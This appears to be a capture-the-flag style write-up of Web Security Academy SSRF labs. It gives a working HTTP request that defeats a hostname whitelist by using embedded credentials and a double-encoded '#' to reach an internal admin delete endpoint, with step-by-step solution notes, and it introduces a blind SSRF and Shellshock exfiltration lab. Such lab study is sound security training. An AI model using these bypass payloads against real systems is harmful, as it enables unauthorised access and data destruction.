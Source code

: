 exploit

```http
POST /product/stock HTTP/1.1
Host: 0a370059030c95d3c03b3eba0054000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
                    </li>
                    <li>
                        Change the URL in the <code>stockApi</code> parameter to <code>http://127.0.0.1/</code> and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
                    </li>
                    <li>
                        Change the URL to <code>http://username@stock.weliketoshop.net/</code> and observe that this is accepted, indicating that the URL parser supports embedded credentials.
                    </li>
                    <li>
                        Append a <code>#</code> to the username and observe that the URL is now rejected.
                    </li>
                    <li>
                        Double-URL encode the <code>#</code> to <code>%2523</code> and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
                    </li>
                    <li>
                        <p>
                            To access the admin interface and delete the target user, change the URL to:
                        </p>
                            <code class="code-scrollable">http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos</code>
                    </li>
                </ol>
            </div>
        </div>




#### Blind SSRF with Shellshock exploitation

> This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
>
> To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. 
